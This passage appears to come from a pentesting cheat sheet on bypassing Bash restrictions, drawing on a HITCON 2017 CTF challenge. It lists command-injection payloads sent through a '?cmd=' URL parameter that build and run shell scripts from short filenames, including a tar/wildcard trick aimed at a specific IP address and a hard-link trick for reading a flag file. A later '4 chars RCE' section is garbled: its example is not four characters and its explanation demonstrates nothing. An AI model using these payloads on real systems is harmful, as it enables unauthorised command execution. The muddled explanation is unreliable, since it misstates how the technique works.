 ```bash
http://host/?cmd=>cu\
http://host/?cmd=sh _
# Note that a "\" char is added at the end of each filename because "ls" will add a new line between filenames whenwritting to the file

## Finally execute the file "g"
http://host/?cmd=sh g


# Another solution from https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
# Instead of writing scripts to a file, create an alphabetically ordered the command and execute it with "*"
https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
## Execute tar command over a folder
http://52.199.204.34/?cmd=>tar
http://52.199.204.34/?cmd=>zcf
http://52.199.204.34/?cmd=>zzz
http://52.199.204.34/?cmd=*%20/h*

# Another curiosity if you can read files of the current folder
ln /f*
## If there is a file /flag.txt that will create a hard link
## to it in the current folder
```
### RCE with 4 chars

### 4 chars RCE

#### Description:

This technique allows you to execute arbitrary commands on a target system by bypassing Bash restrictions. It is based on the fact that Bash allows command substitution within double quotes.

#### Exploitation:

To exploit this technique, you need to find a way to execute a command with only 4 characters. Here is an example:

```bash
$ echo $0
bash
```

In this example, the command `echo $0` is executed, which prints the name of the current shell (`bash`). Now, let's use command substitution to execute a different command:

```bash
$ echo $(echo $0)
bash
```

By enclosing the command `echo $0` within `$(...)`, we are able to execute it as a subcommand. This allows us to execute arbitrary commands within the subcommand.
